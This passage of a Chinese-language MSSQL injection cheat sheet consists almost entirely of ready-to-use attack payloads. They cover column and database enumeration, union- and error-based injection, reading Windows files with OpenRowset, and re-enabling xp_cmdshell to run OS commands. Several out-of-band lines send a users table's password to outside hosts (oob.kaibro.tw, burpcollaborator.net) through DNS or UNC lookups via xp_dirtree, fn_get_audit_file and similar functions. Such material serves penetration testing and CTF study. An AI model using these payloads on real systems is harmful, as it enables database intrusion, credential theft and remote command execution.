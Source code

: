 - 爆column
    - `SELECT table_catalog, table_name, column_name FROM information_schema.columns`
    - `SELECT name FROM syscolumns WHERE id=object_id('news')`
    - `ID=1337';if (select top 1 col_name(object_id('table_name'), i) from sysobjects)>0 select 1--`
    - `SELECT name FROM DBNAME..syscolumns WHERE id=(SELECT id FROM DBNAME..sysobjects WHERE name='TABLENAME')`

- 一次性獲取全部資料
    - `select quotename(name) from master..sysdatabases FOR XML PATH('')`
    - `select concat_ws(0x3a,table_schema,table_name,column_name) from information_schema.columns for json auto`
- Union Based
    - Column 型態必須相同
    - 可用`NULL`來避免
- Error Based
    - 利用型別轉換錯誤
    - `id=1 and user=0`
- Out of Band
    - `declare @p varchar(1024);set @p=(SELECT xxxx);exec('master..xp_dirtree "//'+@p+'.oob.kaibro.tw/a"')`
    - `fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null)`
        - Requires VIEW SERVER STATE permission on the server
    - `fn_get_audit_file('\\'%2b(select+pass+from+users+where+id=1)%2b'.x53bct5ize022t26qfblcsxwtnzhn6.burpcollaborator.net\',default,default)`
        - Requires the CONTROL SERVER permission.
    - `fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.oob.kaibro.tw',default)`
        - Requires the CONTROL SERVER permission.
- 判斷是否站庫分離
    - 客戶端主機名：`select host_name();`
    - 服務端主機名：`select @@servername; `
    - 兩者不同即站庫分離

- 讀檔
    - `select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)`

- xp_cmdshell
    - 在 MSSQL 2000 默認開啟
    - MSSQL 2005 之後默認關閉
    - 有 sa 權限，可透過 sp_configure 重啟它
    
    ```
    EXEC sp_configure 'show advanced options',1
    RECONFIGURE 
    EXEC sp_configure 'xp_cmdshell',1
    RECONFIGURE
    ```

    - 執行 command
        - `exec xp_cmdshell 'whoami'`

    - 關閉xp_cmdshell
    
    ```
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure'xp_cmdshell', 0;
    RECONFIGURE;
    ```
